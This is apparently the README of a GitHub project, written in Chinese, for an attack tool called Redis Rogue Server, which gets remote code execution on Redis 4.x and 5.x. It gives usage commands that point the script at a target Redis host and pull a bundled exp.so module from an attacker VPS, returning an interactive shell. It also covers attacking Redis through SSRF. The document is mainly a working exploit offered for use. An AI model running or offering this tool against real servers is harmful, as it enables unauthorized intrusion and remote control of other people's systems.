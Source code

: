 # Redis Rogue Server

Redis 4.x/Redis 5.x RCE利用脚本, 涉及技术点可参考 [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

经测试Redis 5.0.8也可以使用，没有出现ppt上写的5.0无法set/get config的情况.

## Usage:

编译.so模块, 代码: <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

将.so与 `redis-rogue-server.py`放置在同一目录下

项目自带了一个编译好的的exp.so文件, 可直接使用

### 攻击场景1 - Redis未授权访问/已知Redis口令

启动redis rogue server，并主动连接目标redis服务发起攻击

```bash
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

参数说明：
- `--rpasswd` 如果目标Redis服务开启了认证功能，可以通过该选项指定密码
- `--rhost` 目标redis服务IP
- `--rport` 目标redis服务端口，默认为6379
- `--lhost` vps的外网IP地址
- `--lport` vps监控的端口，默认为21000

攻击成功之后，你会得到一个交互式shell

### 攻击场景2 - 通过SSRF攻击Redis

在SSRF的场景下，可以使用`--server-only`选项

```bash
python3 redis-rogue-server.py --server-only
```

参数说明：

- `--server-only` 仅启动redis rogue server, 不主动连接目标redis